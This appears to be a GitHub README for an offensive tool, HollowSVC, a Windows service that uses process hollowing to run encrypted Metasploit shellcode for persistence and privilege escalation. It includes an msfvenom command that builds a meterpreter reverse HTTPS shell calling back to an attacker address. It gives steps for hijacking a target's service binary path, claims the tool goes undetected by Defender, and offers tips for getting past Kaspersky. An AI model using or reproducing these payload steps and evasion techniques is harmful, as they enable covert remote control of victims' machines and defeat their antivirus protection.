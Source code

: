 <p align="center">
    <img src="/img/8-EoupSza0CCIElrl.png" alt="Logo" width="350" height="350">
</p>
This program is a Windows Service that utilizes the 'process hollowing' technique to run shellcode. It requires the ROT-encrypted shellcode that the user will create using the HollowCrypt program. I created this because there were moments when I needed a custom and straightforward way to run Metasploit shellcode on a Windows Service for persistence/privilege escalation, and using common tools would trigger the AV over my binaries... 


## How to use it

First, we need to create our shellcode:
```
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.1.147 LPORT=443 EXITFUNC=thread -f csharp
```

Then, edit the HollowCrypt source code , compile and execute:
```
HollowCrypt.exe
```

After that, replace the encrypted shellcode in the HollowSVC source code. 
Now  compile the service in the arch of your target, setup your listener, hijack the binary/path in the target and run!

## POC
Running service with path to HollowSVC executable:
<p align="center">
  <img src="/img/legitsvc2.png" alt="legitsvc2" width="350" height="350">
</p>

Meterpreter retrieved:
<p align="center">
  <img src="/img/legitsvc3.png" alt="legitsvc3" width="700" height="150">
</p>

Defender FUD, you will still need to implement OPSEC and be careful when launching meterpreter modules:
<p align="center">
  <img src="/img/legitsvc4.png" alt="legitsvc4" width="500" height="350">
</p>
And remember, there is always ways to improve this! (Use HTTPS cert with meterpreter, load STDAPI afterwards receiving the callback, meterpreter auto-migrate module, use dynamic shellcode encoding ,custom shellcode, etc)

Following those tips, you can bypass AVs like Kaspersky ;-)
<p align="center">
  <img src="/img/photo_2023-07-20_22-35-40.jpg" alt="photo_2023-07-20_22-35-40.jpg" width="1200" height="700">
</p>
<p align="center">
  <img src="/img/photo_2023-07-20_22-36-35.jpg" alt="photo_2023-07-20_22-36-35.jpg" width="700" height="470">
</p>





